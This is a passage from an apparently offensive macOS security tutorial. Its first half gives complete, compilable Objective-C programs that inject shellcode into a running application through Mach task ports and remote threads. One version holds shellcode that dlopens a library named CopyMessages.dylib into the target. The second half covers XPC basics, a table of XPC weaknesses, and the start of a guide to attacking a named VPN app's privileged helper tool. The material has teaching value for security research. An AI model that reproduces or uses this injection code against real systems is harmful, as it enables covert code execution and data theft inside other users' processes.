            printf("[-] Failed to write into remote thread memory, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] Injected Shellcode Into RemoteThreadMemmory !");
        }       
        return (0);
}

```
- Compile
```
gcc -framework Foundation -framework Appkit allocateWrite.m -o allocateWrite
```
### **Code Updates Explain:**
1. **Allocating Memory in the Target Process**:
   - The `mach_vm_allocate` function is used to allocate memory in the target process. In this case, it allocates memory for both the shellcode and the stack.
   - `remoteStack64` is a pointer to the allocated stack memory, while `remoteCode64` is a pointer to the allocated memory for the shellcode.

2. **Writing Shellcode to the Target Process**:
   - The `mach_vm_write` function is used to write the shellcode into the allocated memory space of the target process.

## Set Memory Permisssions for Stack & Code
```ObjC
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

#define STACK_SIZE 0x1000
#define CODE_SIZE 128

char shellcode[] = "Your Shellcode";

uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        task_t remoteTask;
        kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
              
        if (kr != KERN_SUCCESS) {
              printf("[-] Failed to get task port for pid:%d, error: %s\n", pid, mach_error_string(kr));
              return(-1);
            }
        else {
            NSLog(@"[+] Got access to the task port of %d: %u\n", pid, remoteTask);
        }

        mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
        mach_vm_address_t remoteCode64 = (vm_address_t) NULL;

        kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate stack memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteStack: 0x%llx\n", remoteStack64);
        }

        kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate code memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteCode placeholder: 0x%llx\n", remoteCode64);
        }
        
        kr = mach_vm_write(remoteTask, remoteCode64, (vm_address_t) shellcode, CODE_SIZE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to write into remote thread memory, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] Injected Shellcode Into RemoteThreadMemmory !");
        }
        
        kr  = vm_protect(remoteTask, remoteCode64, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give injected code memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] VM_PROT_READ | VM_PROT_EXECUTE Applied on Code Memory !");
        }

        kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give stack memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            
            NSLog(@"[+] VM_PROT_READ | VM_PROT_WRITE Applied on Stack Memory !");

        }
        return (0);

}
```
- Compile
```
gcc -framework Foundation -framework Appkit setMemory.m -o setMemory
```
### Explain Updates:

1. **Setting Memory Protections**:
   - `vm_protect` is used to set the memory protections for the shellcode and stack.
   - The shellcode memory is set to be readable and executable (`VM_PROT_READ | VM_PROT_EXECUTE`), while the stack is set to be readable and writable (`VM_PROT_READ | VM_PROT_WRITE`).

## Execute the Shellcode
```ObjC
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

#define STACK_SIZE 0x1000
#define CODE_SIZE 128

char shellcode[] = "Your Shellcode";

uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        task_t remoteTask;
        kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
              
        if (kr != KERN_SUCCESS) {
              printf("[-] Failed to get task port for pid:%d, error: %s\n", pid, mach_error_string(kr));
              return(-1);
            }
        else {
            NSLog(@"[+] Got access to the task port of %d: %u\n", pid, remoteTask);
        }

        mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
        mach_vm_address_t remoteCode64 = (vm_address_t) NULL;

        kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate stack memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteStack: 0x%llx\n", remoteStack64);
        }

        kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate code memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteCode placeholder: 0x%llx\n", remoteCode64);
        }
        
        kr = mach_vm_write(remoteTask, remoteCode64, (vm_address_t) shellcode, CODE_SIZE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to write into remote thread memory, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] Injected Shellcode Into RemoteThreadMemmory !");
        }
        
        kr  = vm_protect(remoteTask, remoteCode64, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give injected code memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] VM_PROT_READ | VM_PROT_EXECUTE Applied on Code Memory !");
        }

        kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give stack memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            
            NSLog(@"[+] VM_PROT_READ | VM_PROT_WRITE Applied on Stack Memory !");

        }

        x86_thread_state64_t remoteThreadState64;

        memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64) );

        //shift stack
        remoteStack64 += (STACK_SIZE / 2); // this is the real stack
        printf ("[+] Remote Stack 64  0x%llx, Remote code is 0x%llx\n", remoteStack64, remoteCode64 );
        // set remote instruction pointer
        remoteThreadState64.__rip = (u_int64_t) remoteCode64;
        printf("[+] Set RIP to 0x%llx\n", remoteCode64);
        // set remote Stack Pointer
        remoteThreadState64.__rsp = (u_int64_t) remoteStack64;
        printf("[+] Set RSP to 0x%llx\n", remoteStack64);
        remoteThreadState64.__rbp = (u_int64_t) remoteStack64;
        printf("[+] Set RSP to 0x%llx\n", remoteStack64);

    
        //thread variable
        thread_act_t remoteThread;
        printf("[+] Executing Shellcode Thread.......\n");
        //create thread
        kr = thread_create_running( remoteTask, x86_THREAD_STATE64,
           (thread_state_t) &remoteThreadState64, x86_THREAD_STATE64_COUNT, &remoteThread);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed: error: %s\n", mach_error_string (kr));
            return (-1);
        }
        
        printf("[+] Shellcode Executed xD\n");
        return (0);

}
```

- Compile
```
gcc -framework Foundation -framework Appkit InjectCode.m -o InjectCode
```

- **`thread_create_running`**: This function creates a new thread in the target process specified by `remoteTask`.
- **Parameters**:
  - `remoteTask`: The task port of the target process.
  - `x86_THREAD_STATE64`: Specifies the thread state flavor. In this case, it's for x86_64 architecture.
  - `&remoteThreadState64`: A pointer to the thread state data structure. This structure contains the initial register values for the new thread, including the instruction pointer (`__rip`), stack pointer (`__rsp`), and base pointer (`__rbp`).
  - `x86_THREAD_STATE64_COUNT`: The number of valid thread state entries.
  - `&remoteThread`: A pointer to a variable that will hold the newly created thread's port.
- After the remote thread is created, it starts executing at the address specified by the instruction pointer (`__rip`) in the `remoteThreadState64` structure.
- Since the `__rip` is set to the beginning of the allocated memory where the shellcode is placed, the thread starts executing the shellcode.

## Inject Dylib
To load a dylin through the thread, We need to pormote the thread to `POSIX` thread, So by creating a `POSIX` thread from the existing `Mach` thread, We will load the dylib:
```ObjC
#include <dlfcn.h>
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

#define STACK_SIZE 65536
#define CODE_SIZE 128

char shellcode[] =
"\x55"                            // push       rbp
"\x48\x89\xE5"                    // mov        rbp, rsp
"\x48\x83\xEC\x10"                // sub        rsp, 0x10
"\x48\x8D\x7D\xF8"                // lea        rdi, qword [rbp-8]
"\x48\x31\xc9"                    // xor        rcx,rcx
"\x48\x31\xf6"                    // xor        rsi,rsi
"\x48\x8D\x15\x0E\x00\x00\x00"    // lea        rdx, qword ptr [rip + 0xe]
"\x48\xB8"                        // movabs     rax, pthread_create_from_mach_thread
"PTHRDCRT"
"\xFF\xD0"                        // call       rax
"\xEB\xFE"                        // jmp        -2

"\x55"                            // push       rbp
"\x48\x89\xE5"                    // mov        rbp, rsp
"\x48\x83\xEC\x10"                // sub        rsp, 0x10
"\x6A\x01"                        // push 1
"\x5E"                            // pop rsi
"\x48\x8D\x3D\x12\x00\x00\x00"    // lea        rdi, qword ptr [rip + 0x12]
"\x48\xB8"                        // movabs     rax, dlopen
"DLOPEN__"
"\xFF\xD0"                        // call       rax
"\x48\x83\xC4\x10"                // add        rsp, 0x10
"\x5D"                            // pop        rbp
"\xC3"                            // ret

"LIBLIBLIBLIB"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {

        char* lib = "/tmp/CopyMessages.dylib";
        uint64_t addr_of_pthread_create = (uint64_t)dlsym(RTLD_DEFAULT, "pthread_create_from_mach_thread");
        uint64_t addr_of_dlopen = (uint64_t)dlopen;
    
        char *possible_patch_location = (shellcode);
        int i=0;
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        task_t remoteTask;
        kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
              
        if (kr != KERN_SUCCESS) {
              printf("[-] Failed to get task port for pid:%d, error: %s\n", pid, mach_error_string(kr));
              return(-1);
            }
        else {
            NSLog(@"[+] Got access to the task port of %d: %u\n", pid, remoteTask);
        }

        mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
        mach_vm_address_t remoteCode64 = (vm_address_t) NULL;

        kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate stack memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteStack: 0x%llx\n", remoteStack64);
        }

        kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate code memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteCode placeholder: 0x%llx\n", remoteCode64);
        }

        NSLog(@"[+] Patching to pormote Mach Thread to POSIX Thread....\n", remoteCode64);
        
        for (i = 0; i < 0x100; i++) {
            possible_patch_location++;
    
            if (memcmp(possible_patch_location, "PTHRDCRT", 8) == 0) {
                NSLog(@"[+] pthread_create_from_mach_thread Address: @%llx\n", addr_of_pthread_create);
                memcpy(possible_patch_location, &addr_of_pthread_create, 8);
            }
    
            if (memcmp(possible_patch_location, "DLOPEN__", 6) == 0) {
                NSLog(@"[+] dlopen Address: @%llx\n", addr_of_dlopen);
                memcpy(possible_patch_location, &addr_of_dlopen, sizeof(uint64_t));
            }
    
            if (memcmp(possible_patch_location, "LIBLIBLIB", 9) == 0) {
                strcpy(possible_patch_location, lib);
                NSLog(@"[+] Patched Dylib Path in Shellcode\n");
            }
        }
        
        kr = mach_vm_write(remoteTask, remoteCode64, (vm_address_t) shellcode, CODE_SIZE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to write into remote thread memory, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] Injected Shellcode Into RemoteThreadMemmory !");
        }
        
        kr  = vm_protect(remoteTask, remoteCode64, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give injected code memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else{

            NSLog(@"[+] VM_PROT_READ | VM_PROT_EXECUTE Applied on Code Memory !");
        }

        kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

        if (kr != KERN_SUCCESS) {
            printf("[!] Failed to give stack memory proper permissions, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            
            NSLog(@"[+] VM_PROT_READ | VM_PROT_WRITE Applied on Stack Memory !");

        }

        x86_thread_state64_t remoteThreadState64;

        memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64) );


        remoteStack64 += (STACK_SIZE / 2);
        NSLog (@"[+] Remote Stack 64  0x%llx, Remote code is 0x%llx\n", remoteStack64, remoteCode64 );

        remoteThreadState64.__rip = (u_int64_t) remoteCode64;
        NSLog(@"[+] Set RIP to 0x%llx\n", remoteCode64);

        remoteThreadState64.__rsp = (u_int64_t) remoteStack64;
        NSLog(@"[+] Set RSP to 0x%llx\n", remoteStack64);
        remoteThreadState64.__rbp = (u_int64_t) remoteStack64;
        NSLog(@"[+] Set RBP to 0x%llx\n", remoteStack64);

    

        thread_act_t remoteThread;
        NSLog(@"[+] Executing Shellcode Thread.......\n");

        kr = thread_create_running( remoteTask, x86_THREAD_STATE64,
           (thread_state_t) &remoteThreadState64, x86_THREAD_STATE64_COUNT, &remoteThread);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed: error: %s\n", mach_error_string (kr));
            return (-1);
        }
        
        NSLog(@"[+] Shellcode Executed xD\n");
        return (0);

}
```

1. **Including `dlfcn.h`**: This header file is required for dynamic linking functions like `dlsym` and `dlopen`.

2. **Defining Larger Stack and Code Sizes**: The stack size (`STACK_SIZE`) and code size (`CODE_SIZE`) have been increased to 65536 and 128, respectively.

3. **Shellcode**: The shellcode has been updated to include more instructions. It now contains two parts: one for calling `pthread_create_from_mach_thread` and another for calling `dlopen`.

4. **Using `dlsym` to Get Address of Functions**: The code uses `dlsym` to get the address of `pthread_create_from_mach_thread` and `dlopen`. These addresses are then used to patch the shellcode.

5. **Patching the Shellcode**: The code loops through the shellcode to find specific patterns (`"PTHRDCRT"`, `"DLOPEN__"`, and `"LIBLIBLIB"`) and replaces them with the addresses obtained from `dlsym` and the path to the dynamic library (`lib`). This allows the shellcode to call `pthread_create_from_mach_thread` and `dlopen` with the specified library path.

6. **Printing Debug Information**: The code includes several `NSLog` statements to print debug information, such as the addresses of `pthread_create_from_mach_thread` and `dlopen`, and the path to the dynamic library.

7. **Using Larger Stack Offset**: The code uses a larger offset (`STACK_SIZE / 2`) to shift the stack pointer (`__rsp`) in the `remoteThreadState64` structure. This offset is used to provide more space for the stack in the remote thread.

Tese changes enhance the functionality of the code by allowing it to load a dynamic library (`lib`) into a target process and create a `POSIX` thread using `pthread_create_from_mach_thread`.

# Attacking XPC
## XPC Fundmentals

### What is XPC?
XPC is a communication mechanism in macOS and iOS that allows different processes to communicate with each other. It is used to separate tasks into different processes, enhancing security and stability by isolating potentially risky operations.

### Key Components of XPC:
- **XPC Services**: These are the services that run in separate processes and perform specific tasks. They can be provided by both Apple and third-party developers.
- **Mach Services**: XPC services register Mach services to facilitate communication via Mach messages.
- **Clients**: Applications or processes that request services from XPC services.
- **Entitlements**: Special permissions required by applications to access certain XPC services.

### How XPC Works:
1. **Service Registration**: XPC services register themselves with the operating system, making them available to clients.
2. **Client Requests**: Clients send requests to the XPC service for specific tasks or information.
3. **Message Passing**: Communication is done through messages passed between the client and the service via Mach ports.
4. **Response Handling**: The XPC service processes the request and sends back a response to the client.



### Creating Server and Client

#### XPC Service (Server)

**Part 1**

```objc
#import <Foundation/Foundation.h>

@protocol ServiceProtocol
- (void)upperCaseString:(NSString *)aString withReply:(void (^)(NSString *))reply;
@end

@interface Service : NSObject <ServiceProtocol>
@end
```

- Define a protocol `ServiceProtocol` with a method `upperCaseString:withReply:`.
- Declare the `Service` class that conforms to this protocol.

**Part 2**

```objc
@implementation Service

- (void)upperCaseString:(NSString *)aString withReply:(void (^)(NSString *))reply {
    NSString *response = [aString uppercaseString];
    reply(response);
}

@end
```

- Implement the `upperCaseString:withReply:` method to convert a string to uppercase and call the reply block with the result.

**Part3**

```objc
@interface ServiceDelegate : NSObject <NSXPCListenerDelegate>
@end

@implementation ServiceDelegate

- (BOOL)listener:(NSXPCListener *)listener shouldAcceptNewConnection:(NSXPCConnection *)newConnection {
    newConnection.exportedInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ServiceProtocol)];
    newConnection.exportedObject = [Service new];
    [newConnection resume];
    return YES;
}

@end

int main(int argc, const char *argv[]) {
    @autoreleasepool {
        NSXPCListener *listener = [NSXPCListener serviceListener];
        ServiceDelegate *delegate = [ServiceDelegate new];
        listener.delegate = delegate;
        [listener resume];
    }
    return 0;
}
```

- Define a `ServiceDelegate` class that conforms to `NSXPCListenerDelegate`.
- Implement the `listener:shouldAcceptNewConnection:` method to configure new connections.
- In the `main` function, create an `NSXPCListener` for the service, set its delegate, and resume it to start listening for connections.

#### XPC Client

**main.m**

```objc
#import <Foundation/Foundation.h>

@protocol ServiceProtocol
- (void)upperCaseString:(NSString *)aString withReply:(void (^)(NSString *))reply;
@end

int main(int argc, const char *argv[]) {
    @autoreleasepool {
        NSXPCConnection *connection = [[NSXPCConnection alloc] initWithServiceName:@"com.example.service"];
        connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ServiceProtocol)];
        [connection resume];

        id<ServiceProtocol> proxy = [connection remoteObjectProxyWithErrorHandler:^(NSError *error) {
            NSLog(@"Remote proxy error: %@", error);
        }];

        [proxy upperCaseString:@"hello, server!" withReply:^(NSString *response) {
            NSLog(@"Received response: %@", response);
            exit(0);
        }];

        [[NSRunLoop currentRunLoop] run];
    }
    return 0;
}
```

Define the `ServiceProtocol` to match the service protocol. Create an `NSXPCConnection` with the service name `com.example.service`. Then Set the remote object interface using `NSXPCInterface` with the `ServiceProtocol`. Resume the connection to start communication. After that Get a remote object proxy that conforms to `ServiceProtocol` and Call the `upperCaseString:withReply:` method on the proxy with a string and a reply block. Start the run loop to keep the client running until the reply is received.



## When XPC can be vulnerable

| **Condition**                                                                                               | **Description**                                                                                                                                                                      |
|-------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Service doesn't verify at all                                                                               | If the service doesn't perform any verification, it is highly susceptible to exploitation. For example, an XPC service that accepts any connection without checking credentials. |
| Client verification process can be subverted allowing custom process connection                             | If the verification process for clients connecting to an XPC service is flawed, attackers can bypass it and connect using a custom process. For example, forging client credentials to access the service. |
| Code injection against the XPC client                                                                       | Exploiting vulnerabilities to inject code into the client of an XPC service can allow attackers to gain unauthorized access or perform malicious actions. For example, injecting malicious code into a client to control its interactions with the XPC service. |
| DYLIB attacks against XPC client                                                                            | Dynamic Library (DYLIB) attacks involve injecting malicious libraries into the client process to exploit the XPC service. For instance, using DYLD_INSERT_LIBRARIES to load a malicious library. |
| com.apple.security.get-task-allow entitlement                                                               | This entitlement allows debuggers to connect, which can be exploited if applied to production binaries, potentially allowing unauthorized access. For example, an attacker can use this to debug and manipulate the service. |
| com.apple.security.cs.allow-dyld-environment-variables entitlement set to "true"                            | If this entitlement is enabled, it allows dynamic library injection via environment variables, posing a significant security risk. For example, setting environment variables to load a malicious library. |
| com.apple.security.cs.disable-library-validation entitlement                                                | This entitlement permits loading of third-party signed dynamic libraries, which can be exploited to run malicious code. For instance, loading an unsigned malicious library into a service. |
| Service does not verify connecting process is signed with Apple-signed certificate                          | Ensuring the connecting process has a valid Apple-signed certificate prevents unauthorized access from self-signed or fake certificates. For example, an attacker using a fake certificate to connect. |
| Service does not verify team ID of the connecting process                                                   | Verifying the team ID ensures the connecting process belongs to the intended organization, blocking access from unauthorized entities. For example, an attacker using their own developer certificate to connect. |
| Service does not verify proper bundle ID                                                                    | Checking the bundle ID helps reduce the attack surface by limiting connections to known, trusted applications. For example, an attacker spoofing a trusted application’s bundle ID. |
| Service does not verify software version number                                                             | Verifying the software version ensures that only updated, secure clients can connect, reducing risks from older, vulnerable versions. For example, using an outdated vulnerable client to exploit the service. |
| Service does not verify code signing properties                                                             | Proper verification of code signing attributes ensures that only legitimate and unaltered applications can connect to the service. For example, connecting with a modified client that bypasses security checks. |
| Service does not require specific entitlement for connection (for Apple binaries)                           | Requiring specific entitlements for connection adds an additional layer of security, ensuring that only authorized applications can access the service. For example, an attacker bypassing entitlement checks. |
| Service uses PID for verification instead of audit token                                                    | Using an audit token instead of a process ID for verification prevents PID reuse attacks, enhancing the security of the service connection process. For example, an attacker reusing a PID to gain access. |

## Guide for Attacking XPC
I will be using `PureVpn.app` as an example for the guide.
### Find Mach Services & Privileged Tools
You can find `XPC` related to an App, In 2 places either inside the app under:
- /Applications/theapp.app/Contents/XPCServices
- /Applications/theapp.app/Contents/Library
And in the following directories the configuerations:
- /System/Library/LaunchDaemons
- /Library/LaunchDaemons
- /System/Library/LaunchAgents
- /Library/LaunchAgents
Mostly The `HelperTools` is under `/Library/PrivilegedHelperTools/`.

#### Identify the Services & Privileged Tools

Under `/Library/LaunchDaemons`, Wew can see the `LaunchDaemons` related to `PureVpn`:
```zsh
~ % ls /Library/LaunchDaemons | grep pure
com.purevpn.macapp.HelperTool.plist
```

When we look at the `com.purevpn.macapp.HelperTool.plist`, We can see the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Debug</key>
	<true/>
	<key>Label</key>
	<string>com.purevpn.macapp.HelperTool</string>
	<key>MachServices</key>
	<dict>
		<key>com.purevpn.macapp.HelperTool</key>
		<true/>
	</dict>
	<key>Program</key>
	<string>/Library/PrivilegedHelperTools/com.purevpn.macapp.HelperTool</string>
	<key>ProgramArguments</key>
	<array>
		<string>/Library/PrivilegedHelperTools/com.purevpn.macapp.HelperTool</string>
	</array>
	<key>StandardErrorPath</key>
	<string>/var/log/PureVPNHelperLayer.log</string>
	<key>StandardOutPath</key>
	<string>/var/log/PureVPNHelperLayer.log</string>
</dict>
</plist>
```

We can see 2 things here, `MachServices`, Let's Note it. And the `HelperTool` under the following path `/Library/PrivilegedHelperTools/com.purevpn.macapp.HelperTool`.

### Authorization & Verification
